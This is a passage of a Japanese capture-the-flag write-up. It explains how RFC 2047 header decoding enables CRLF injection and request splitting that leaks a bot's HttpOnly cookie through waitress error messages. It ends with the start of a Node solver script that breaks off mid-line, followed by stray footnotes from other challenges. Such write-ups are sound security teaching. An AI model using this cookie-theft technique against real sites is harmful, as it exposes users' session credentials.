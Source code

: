ヘッダのvalueに対して[RFC 2047](https://www.rfc-editor.org/rfc/rfc2047.html)に従ったdecode処理が行われていることがわかります。
よって、`\r\n`をエンコードしたヘッダを送信することによって上記の`proxy`関数に対してCRLF injectionを行うことが可能になります。

#### Step 3: HttpOnly cookie exposure

CRLF injectionをうまく利用することによって、リクエスト時に一緒に送信されるcookieの値がレスポンスのbody内に含まれるようなリクエストを構成することはできるだろうか？

`backend`はcherrypyで実装されていますが、WSGIとして[waitress](https://github.com/Pylons/waitress)も使われています。waitressの実装を読むと

- https://github.com/Pylons/waitress/blob/v2.1.2/src/waitress/parser.py#L436-L437

にて、HTTPリクエストの1行目が不正な場合に、そのHTTPメソッドを含むエラー文を載せてレスポンスする挙動になっていることがわかります。
これを利用して、つまり、cookieの値部分がHTTPメソッドの位置になるようにリクエストを構成することによって、そのレスポンスのbodyからcookieの中身を取得することを考えます。

これはCRLF injectionで1つのリクエストを2つのリクエストに分割（splitting）すれば可能です。HTTPメソッドとなる場所は`Content-Length`でうまく調整すれば良いです。

また、該当のエラー文を出力するには、リクエストの1行目を
```python
# From: https://github.com/Pylons/waitress/blob/v2.1.2/src/waitress/parser.py#L409-L413
first_line_re = re.compile(
    b"([^ ]+) "
    b"((?:[^ :?#]+://[^ ?#/]*(?:[0-9]{1,5})?)?[^ ]+)"
    b"(( HTTP/([0-9.]+))$|$)"
)
```
にマッチさせる必要があります。これは、
```javascript
document.cookie = '/?a=b HTTP/1.1'
```
のように適当なcookieを付与することで1行目が
```
flag=SECCON{real_flag}; /?a=b HTTP/1.1
```
となり、正規表現にマッチするようになります。

### Solver

以上のステップを組み合わせると、botのHttpOnly cookieの中身を盗むことが可能です:

```javascript
const fastify = require("fastify")();

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");

const LISTEN_PORT = process.env.PORT ?? "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const encode = (bs) => {
    // ref. https://www.rfc-editor.org/rfc/rfc2047.html#section-2
    charset = "iso-8859-1";
    encoding = "q";
    encoded_text = Array.from(Buffer.from(bs))
      .map((x) => "=" + Buffer.from([x]).toString("hex"))
      .join("");
    return `=?${charset}?${encoding}?${encoded_text}?=`;
  };

  const contentLength =
```

[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。